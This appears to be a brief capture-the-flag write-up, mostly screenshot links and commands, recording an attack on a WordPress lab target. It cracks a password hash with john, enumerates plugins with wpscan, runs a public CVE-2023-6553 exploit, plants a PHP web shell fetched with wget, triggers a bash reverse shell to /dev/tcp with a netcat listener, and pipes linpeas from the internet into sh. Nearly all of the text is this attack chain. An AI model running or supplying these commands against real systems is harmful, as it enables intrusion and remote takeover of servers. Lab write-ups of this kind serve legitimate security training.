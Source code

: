 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9f53dde2-8fda-4c59-80d5-d6b02a6086b7)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b8a594be-31ef-4467-91f7-fbaa33ad2067)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/00806b5b-8a84-4cfc-88fc-22413357b290)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d2b41dd2-9edf-4593-b360-1f436cae93ee)

```
wpscan --url http://62.173.140.174:28580/ --enumerate ap --plugins-detection aggressive
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c687398-0fe3-43b0-b37e-e8588fe155fc)

https://github.com/Chocapikk/CVE-2023-6553
```
python exploit.py -u http://62.173.140.174:28580/
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f23edae7-f8e4-41a6-ab3a-029afce66eca)
```
echo '<?php phpinfo(); ?>' > /var/www/html/test.php
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c66d94c1-de4b-4215-9ad9-3994e66440eb)
```
wget -P /var/www/html/ http://IP:1234/myrev.php 
http://62.173.140.174:28580/myrev.php
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
nc -lvnp 1234 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c492a62a-122a-4513-a8a0-b40b836af3b0)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```


